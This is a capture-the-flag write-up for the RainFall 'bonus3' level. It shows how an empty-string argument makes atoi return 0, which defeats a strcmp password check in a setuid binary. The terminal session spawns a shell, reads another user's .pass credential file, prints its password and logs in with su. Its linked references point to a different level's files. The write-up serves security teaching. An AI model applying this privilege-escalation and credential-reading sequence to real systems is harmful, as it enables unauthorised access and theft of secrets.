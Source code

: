 # Bonus3

We can find an executable which print a newline when we pass it one argument :
```
bonus3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 bla

bonus3@RainFall:~$ ./bonus3 bla bla
bonus3@RainFall:~$
```
After analyze it with gdb we can find just a `main()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus0/source.c) for more details.  
The program need at least 1 argument (argv[1]) otherwise it exits, the program also reads the .pass file for next level and store it into a buffer via `fread()`.  
Then the program calls `atoi()` with argv[1] as a parameter and uses the result as an index for our buffer, at that index the program inserts a null byte.  
After that, the program do a comparaison on our buffer, it must be equal to argv[1] so that we execute a shell.  
The thing is we don't know the flag! But if we input an empty string as first argument, `atoi()` will return 0 since the string does not contain a numeric value representation.  
Therefore it will replace the first character in the buffer with a `\0` (buffer[atoi("")] = 0), and since strcmp stops at `\0` both string will be considered identical :
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
end@RainFall:~$
```
Bonus3 passed!

